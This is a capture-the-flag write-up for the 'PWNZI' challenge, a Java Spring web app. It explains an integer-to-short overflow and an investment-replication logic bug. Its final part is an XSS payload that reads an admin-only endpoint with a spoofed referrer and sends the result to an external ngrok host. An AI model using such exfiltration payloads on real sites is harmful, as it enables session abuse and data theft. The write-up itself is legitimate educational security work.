



# PWNZI



Opening up the challenge, the first thing I see in the source is a link to jar file
https://pwnzi.ctf.spamandhex.com/pwnzi.jar

Decompiled using `Procyon` we get the complete source of the backend. It was a java application running on Spring Framework.

## FLAG #1

So the premise of the application was simple, you get 800,000$ to start. You also have options to buy certain perks if you meet the criteria of expected interests from your investments.
```
For 100,000$ you can buy the perk to upload images
For 1,300,000$ you can buy the perk to upload any content
For 1,400,000$ you can buy the perk to view flag1
```

The file `hu.spamandhex.pwnzi.PwnziController.java` contained most of the application logic.
However looking at the code of `/claim-perk` route

```
        if (user.hasPerk(perk)) {
            throw new PwnziException("perk already credited");
        }
        if (perk == Perks.FLAG) {
            throw new PwnziException("sry, you have to work a bit harder for the flag");
        }
```

It became clear even if you have 1,400,000$ you wouldn't get the flag.

So I started looking around the logic of how perks were stored and alloted.

```
    // data/User.java
    
    private short perks;
    
    public boolean hasPerk(final int perk) {
        return (this.perks & 1 << perk) != 0x0;
    }
    
    public void addPerk(final int perk) {
        this.perks |= (short)(1 << perk);
    }
 ```
 
 Simplyfing the above, it was a simple bit positioned flags.
 Eg. The bit at 1st index (from 0) would tell you if you had the perk 1.
 The Perk flag had the value 14 so to have that perk 14th bit index needed to 1 ie `perk = 0b100000000000000`
 
 So we needed to set the 14th bit without actually requesting the perk 14 which was not allowed.
 
 The vulnerability was in the `(short)` integer-to-short casting. As an integer can take much larger values, anything that does not fit in 2 bytes would overflow.
 
 So here is a quick script I wrote to test if any other perk would set the 14th bit after overflowing.
 
```
for(int i=1;i<100;i++){
    short newperk = (short)(1 << i);
    if((newperk & 1 << 14) != 0){
            System.out.println("int : " + i);
    }
}
```

Output
```
int : 14
int : 46
int : 78
```

So if I claim 46 perk, it would overflow and give me the perk 14.
So now I needed investment interests returns of 4,600,000.

On the investment page, the max possible return could be achieved if we do 8 investments of 100,000 each with each investment containing one children and so on.
```
A -> B -> C -> D -> E -> F -> G -> H
```
This will give us max legitimate investment returns as the code calculates investments of each children in its parent as welll.
This gave me `1377565.63 $` return, enough to buy unrestricted upload perk but not perk 46.

Looking at the file upload code, hoping to find some vulnerability I found out that it actually does not store uploaded content as files on disk, rather it stores them in a database.
So there was nothing to look further.

Back to the investment code, I saw that the investments and their parent children relationship were actually tracked by just their name
by using the function `findByOwnerAndName`, so there could be someway to fool the expected interest logic.

And it turned out to be very simple.
First add multiple root investments of the same name.



Now if you add one investment child to any one, you'll notice the investment being replicated to all the root investments without spending the money.



So now using this hack the maximum return you can get by replicating childs is just a little above 4,600,000. Exactly what you need.
No go and claim `/claim-perm?perk=46` and enjoy the flag.

## FLAG #2,3

Now the route '/flag2' and '/flag3' had similar logic

```
this.checkRefererIsProfilePage(request);
final User user = this.currentUser(session);
final String t = this.isAdmin(user) ? this.config.getFlag2() : "only admin can see this";
return (ResponseEntity<String>)ResponseEntity.ok((Object)t);
```

This was a classic XSS - adminbot type of chal.
We need to find a XSS and report it to admin, admin will visit the page triggering our js payload and giving us the flag.

Now this turned out to be very very easy, I did not understand how it had such few solves and certain teams only managing to solve one because the exploit for both was exactly the same.


On the profile page, claim the perk of unrestricted file upload. We have more than 4600,000.
Now the logic to view a file was this

```
    @GetMapping({ "/files-{userUuid}-{fileName}" })
    public ResponseEntity<byte[]> getFile(@PathVariable("userUuid") final String userUuid, @PathVariable("fileName") final String fileName) {
        return (ResponseEntity<byte[]>)
          this.users.findByUuid(userUuid)
          .flatMap(user -> this.files.findByOwnerAndName(user, fileName))
          .map(file -> ResponseEntity.ok()
          .contentType(MediaType.parseMediaType(file.getContentType()))
          .body((Object)file.getContent())).orElseGet(() -> ResponseEntity.notFound().build());
    }
```
So this sent the file in with its orignal mime type. So we can just upload a html page and we have xss.

Now we need to fetch the `/flag2` endpoint from javascript, but the catch is its referrer must be the `/profile` page.
This is very simple, just set the referrer manually.

At this point I thought surely outbound requests must be blocked and the challenge would be to do so tricky exfilteration but no, a simple fetch worked.

```
<script>
function myFunction() {
  fetch("/flag2",{referrer:"https://pwnzi.ctf.spamandhex.com/profile.html"}).then(resp => resp.text()).then(text => {
        fetch("https://e979154e.ngrok.io/flag="+btoa(text));
  });
}

window.onload = myFunction;
</script>

```

Worked for /flag3 as well. Super easy.


